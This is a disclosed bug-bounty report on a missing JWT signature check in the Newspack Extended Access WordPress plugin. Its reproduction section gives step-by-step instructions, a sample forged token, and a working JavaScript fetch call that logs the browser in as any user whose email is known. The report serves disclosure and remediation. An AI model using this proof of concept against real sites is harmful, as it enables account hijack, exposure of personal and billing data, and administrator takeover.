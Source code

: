 # Authentication & Registration Bypass in Newspack Extended Access

## Report Details
- **Report ID**: 2536758
- **URL**: https://hackerone.com/reports/2536758
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-06-05T09:20:20.682Z
- **Disclosed**: 2024-07-05T12:14:56.046Z

## Reporter
- **Username**: xurizaemon0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
The Newspack Extended Access plugin omits to verify JWT signing on the registration and login JSON endpoint. This permits registration of accounts with arbitrary (user-supplied) details, and auth bypass and account hijack if a target account email is known.

## Platform(s) Affected:
Any website using [Newspack Extended Access plugin](https://github.com/Automattic/newspack-extended-access).

## Steps To Reproduce:

Create an unsigned JWT containing payload value `{"azp": {app id}, "email": "target@example.org"}`. Use a browser to supply this data to the Extended Access registration endpoint. Browser will be authenticated as the target user.

### Requirements

1. Site installed and configured with Newspack Extended Access (+ dependencies incl WooCommerce, WC Memberships, Newspack).
 2. Target user email is known (for account hijack)

### Notes

1. For account hijack, target user must be registered via SwG / Extended Access initially
2. There was previously a mitigation that hijack of Administrator or Editor roles was prevented, this was recently *removed* in [automattic/newspack-extended-access@4c87c25a](https://github.com/Automattic/newspack-extended-access/commit/4c87c25a58a6e16515e27e99eb040b336a4d3b07) 

### Reproduction

1. Obtain the target site's Google App ID (ex: 12345-abcdef.apps.googleusercontent.com) by visiting the site and copying the JS value `authenticationSettings.googleClientApiID`
2. Obtain the target email of the desired account (ex: test@example.org) to either hijack (existing) or register as a new user verified as associated with the named Google account
3. Compose a JWT using those details:
4. Execute a fetch request to the plugin endpoint using the supplied JS below
5. The browser will now be logged into the target account.

```json
{
  "sub": "1234567890",
  "azp": "12345-abcdef.apps.googleusercontent.com" ,
  "email": "test@example.org"
}
```

```js
// Endpoint URL
let url = `${window.location.protocol}//${window.location.hostname}/wp-json/newspack-extended-access/v1/google/register`;
// JWT contents - this JWT contains the details above, and will not work as-is.
let token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwiYXpwIjoiMTIzNDUtYWJjZGVmLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiZW1haWwiOiJ0ZXN0QGV4YW1wbGUub3JnIn0.Nq7Nc2AyWe17gPmIHVRCc4z9qKP-HBZwfWhyQ_dg9X0";
// Provide token to authentication endpoint.
fetch(  
    url,  
    {  
       cache: 'no-store',  
       method: 'POST',  
       headers: {  
          'Content-type': 'text/plain',  
       },  
       body: token  
    }  
).then(response => {  
    console.log(response.json(), 'response');  
})
```

## Supporting Material/References:

* JWT is accepted without validation of JWT signature. Ref https://github.com/Automattic/newspack-extended-access/blob/2b22de2c2543b46a989fdcaa626fd011c1b39d59/includes/class-rest-controller.php#L84-L89
* Mitigation: Newspack restricts authentication to user accounts which have metadata indicating that Signin with Google was used for initial sign-in. Ref https://github.com/Automattic/newspack-plugin/blob/trunk/includes/reader-activation/class-reader-activation.php#L681-L690

### Impacts

- Registration of accounts with arbitrary (user-supplied) details
- Personal data (eg the target user's additional account details, billing address etc) will be visible to the attacker.
- Registration processes may be bypassed.
- Bulk registration may be used to deny service to the target website.
- If a hijacked account has Admin role, full WordPress access can be obtained.
- Authentication bypass if the target account email is known
- Injection of untrusted data into user profiles

## Solution recommendation

The solution here is I believe outlined in the integration documentation:

- Google's JWT signing keys are made available from an HTTP endpoint
- These keys should be retrieved periodically and stored in the consuming application (eg as a WordPress setting or other value)
- When a JWT is presented to the endpoint, the JWT signature should be verified against Google's recently published keys before progressing with registration or authentication.

## Impact

- Authentication bypass
- Registration bypass
- Access to user private data
- Potential for DoS
- Potential for full system access

## Attachments
No attachments
